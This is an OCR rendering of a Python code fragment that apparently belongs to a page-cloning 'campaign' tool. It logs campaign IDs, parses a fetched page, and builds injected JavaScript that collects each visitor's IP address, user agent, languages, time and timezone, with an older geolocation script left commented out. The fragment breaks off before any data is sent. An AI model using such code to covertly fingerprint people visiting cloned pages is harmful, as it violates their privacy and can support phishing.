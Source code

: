 ```python
code = len(id_dict) + 1

new_data = pd.DataFrame({"id": code, "filepath": path[:-7]}, index=[0])

appended = pd.concat([id_dict, new_data])

print(appended)

appended.to_csv('./static/campaigns/campaign_IDs.csv', header=True, index=False)

  
  

soup = BeautifulSoup(response.text, 'html.parser')

html_content = soup.prettify()

  

#Append the location script

#location_script = soup.new_tag("script")

#location_script.string = 'var myip;function callback(data) { console.log(data.city);}function request_location() {var oHead = document.getElementsByTagName("head")[0];var oScript = document.createElement("script");oScript.type = "text/javascript";oScript.src = "http://ip-api.com/json/" + myip + "?callback=callback";oHead.appendChild(oScript);}</script><script type="text/javascript" src="http://l2.io/ip.js?var=myip" onload="request_location();"></script></head>'

#soup.html.body.append(location_script)

information_collection_script = '''

async function getData() {

//fetch IP address from icanhazip.com

const response = await fetch('https://icanhazip.com');

const IP = await response.text();

//get the user agent and browser languages

const userAgent = navigator.userAgent

const languages = navigator.languages //returned as an array

  

//get the user's tme and timezone

const time = new Date();

const hours = time.getHours();

const minutes = time.getMinutes();

const user_time = hours + ":" + minutes;

const timezone = Intl.DateTimeFormat().resolvedOptions().timeZone;

  

```